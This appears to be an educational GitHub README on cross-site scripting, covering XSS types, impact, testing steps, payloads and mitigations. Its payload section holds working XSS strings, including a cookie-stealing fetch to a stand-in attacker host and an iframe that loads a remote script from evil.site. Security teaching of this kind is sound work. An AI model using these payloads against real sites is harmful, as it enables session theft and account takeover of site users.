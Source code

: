 # 🎯 Cross-Site Scripting (XSS)  
*Web vulnerability where attackers inject malicious scripts into trusted websites*  

---

## 📖 Table of Contents  
- [📜 Definition](#-definition)  
- [🔀 Types of XSS](#-types-of-xss)  
- [💥 Impact](#-impact)  
- [🔍 Testing Methodology](#-testing-methodology)  
- [📌 Common Payloads](#-common-payloads)  
- [📚 Resources](#-resources)  
- [🛡️ Mitigation](#️-mitigation)  

---

## 📜 Definition  
XSS (Cross-Site Scripting) is an injection vulnerability where attackers execute malicious JavaScript in a victim's browser, often for:  
- Session hijacking 🕵️  
- Phishing attacks 🎣  
- Defacement 🏴  

---

## 🔀 Types of XSS  

| Type              | Description                                                                 | Risk Level |  
|--------------------|-----------------------------------------------------------------------------|------------|  
| **🔄 Stored XSS**   | Malicious script is **stored** on the server (e.g., comments/user profiles). Executes when victims view infected pages. | Critical   |  
| **🎯 Reflected XSS**| Script is **reflected** in immediate server responses (e.g., search results). Requires social engineering.             | High       |  
| **🌐 DOM-based XSS**| Client-side attack exploiting unsafe JavaScript DOM manipulation. No server interaction.                              | High       |  

---

## 💥 Impact  
- **Cookie/session theft** 🍪  
- **Account takeover** 👑  
- **Keylogging** ⌨️  
- **Content spoofing** 🎭  
- **Redirection to malicious sites** ➡️  

---

## 🔍 Testing Methodology  
1. **Identify Input Points**:  
   - Search bars 🔍  
   - Comment sections 💬  
   - User profiles (bio/username) 👤  
   - URL parameters (e.g., `?id=<payload>`) 🌐  

2. **Test for Reflection**:  
   - Inject a unique string (e.g., `cupcakes123`) and check:  
     ```html
     <!-- Check if it appears in: -->
     Page content | HTML source | Network responses (DevTools)
     ```  

3. **Escalate with Payloads**:  
   ```html
   <script>alert(1)</script>                 <!-- Classic test -->
   <img src=x onerror="alert(document.cookie)">  <!-- Cookie theft demo -->
   ```

---

## 📌 Common Payloads  
### Basic Tests  
```html
<script>alert(1)</script>
<img src=x onerror="alert(1)">
```  

### Advanced Attacks  
```html
<!-- Steal cookies -->
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>  

<!-- Redirect to phishing site -->
<iframe src="javascript:document.write('<script src=//evil.site/xss.js></script>')">
```  

📖 Here is a cool Cheat Sheet: [XSS Payload Masterlist](https://gist.github.com/kurobeats/9a613c9ab68914312cbb415134795b45)  

---

## 📚 Resources  
| Resource | Description | Link |  
|----------|-------------|------|  
| **Beyond XSS** | Advanced exploitation techniques | [aszx87410.github.io](https://aszx87410.github.io/beyond-xss/en/) |  
| **PortSwigger Labs** | Hands-on XSS practice | [portswigger.net](https://portswigger.net/web-security/cross-site-scripting) |  
| **OWASP XSS Guide** | Defense strategies | [owasp.org](https://owasp.org/www-community/attacks/xss/) |  

---

## 🛡️ Mitigation  
| Strategy | Example |  
|----------|---------|  
| **Sanitize Inputs** | Remove/escape HTML tags with libraries like `DOMPurify` |  
| **Use CSP Headers** | `Content-Security-Policy: default-src 'self'` |  
| **Avoid Unsafe Functions** | Use `textContent` instead of `innerHTML` |  

```javascript


---
